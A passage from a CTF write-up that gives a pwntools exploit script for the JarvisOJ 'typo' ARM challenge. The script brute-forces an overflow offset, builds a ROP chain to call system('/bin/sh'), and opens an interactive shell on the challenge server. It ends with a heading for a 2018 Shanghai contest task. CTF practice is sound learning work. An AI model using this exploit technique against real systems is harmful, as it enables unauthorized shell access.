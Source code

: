 ```python
jarvisOJ_typo [master●●] cat solve.py 
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *
import sys
import pdb
#  context.log_level = "debug"

#  for i in range(100, 150)[::-1]:
for i in range(112, 123):
    if sys.argv[1] == "l":
        io = process("./typo", timeout = 2)
    elif sys.argv[1] == "d":
        io = process(["qemu-arm", "-g", "1234", "./typo"])
    else:
        io = remote("pwn2.jarvisoj.com", 9888, timeout = 2)

    io.sendafter("quit\n", "\n")
    io.recvline()

    '''
    jarvisOJ_typo [master●●] ROPgadget --binary ./typo --string /bin/sh
    Strings information
    ============================================================
    0x0006c384 : /bin/sh
    jarvisOJ_typo [master●●] ROPgadget --binary ./typo --only "pop|ret" | grep r0
    0x00020904 : pop {r0, r4, pc}
    '''

    payload = 'a' * i + p32(0x20904) + p32(0x6c384) * 2 + p32(0x110B4)
    success(i)
    io.sendlineafter("\n", payload)

    #  pause()
    try:
        #  pdb.set_trace()
        io.sendline("echo aaaa")
        io.recvuntil("aaaa", timeout = 1)
    except EOFError:
        io.close()
        continue
    else:
        io.interactive()
```

# 3.2018 上海市大学生网络安全大赛 - baby_arm

![image.png](https://i.loli.net/2020/11/17/HcYNUqbAiDglxLW.png)

